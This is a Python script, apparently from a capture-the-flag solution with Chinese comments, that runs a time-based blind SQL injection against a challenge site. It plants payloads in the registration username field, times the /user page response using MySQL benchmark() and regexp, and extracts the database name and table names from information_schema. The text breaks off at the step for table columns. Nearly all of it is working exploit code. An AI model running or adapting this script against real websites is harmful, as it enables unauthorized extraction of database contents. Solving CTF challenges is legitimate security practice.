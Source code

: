 ```python
                    'username':username,
                    'email':email,
                    'password':password,
                    'submit':'注册'}
    # print(registerData)
    r = session.post('https://unforgettable.liki.link/register',data=registerData)
    result = BeautifulSoup(r,'lxml').find('div',class_='alert').contents[2]
    print(result)
    if 'You have registered!' in result:
        r = session.get('https://unforgettable.liki.link/login')
        csrf_token = BeautifulSoup(r,'lxml').find('input',id='csrf_token')['value']
        loginData = {'csrf_token':csrf_token,
                    'email':email,
                    'password':password,
                    'submit':'登录'}
        session.post('https://unforgettable.liki.link/login',data=loginData)
        r = session.get('https://unforgettable.liki.link/user',timeout=600,allow_redirects=False)
        # 这个不允许跳转真的太太太重要了
        print(r.elapsed.total_seconds())
        return r.elapsed.total_seconds()

def getOutput(shell):
    # 获取返回结果的长度
    outputLength = 1
    while 1:
        temp = ''
        for _ in range(outputLength):
            temp += '.'
        payload = "1'&& if(({}) regexp '^{}',0,benchmark(5000000,sha2('a',256)))#{}".format(shell, temp, str(int(time.time())))
        if tryPayload(payload) < 1.5:
            outputLength += 1
        else:
            break
    print(outputLength)

    # 获取返回的结果
    output = ''
    wordList = '_,abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 @$~'
    for _ in range(outputLength-1): # 末尾是"\0"所以少读一位就够了
        for i in range(len(wordList)):
            temp = output
            temp += wordList[i]
            payload = "1'&& if(({}) regexp '^{}',benchmark(5000000,sha2('a',256)),0)#{}".format(shell, temp, str(int(time.time())))
            if tryPayload(payload) > 1.5:
                output += wordList[i]
                break
    print(output)
    return output

# 数据库名
DBName = getOutput('database()')
# DBName = 'todolist'
print(DBName)
# 表名
tableNames = getOutput("select group_concat(table_name) from information_schema.tables where table_schema in ('{}')".format(DBName))
# tableNames = 'ffflllaagggg,todolist,user'
print(tableNames)
tableName = tableNames[:tableNames.index(',')]
# 表字段
```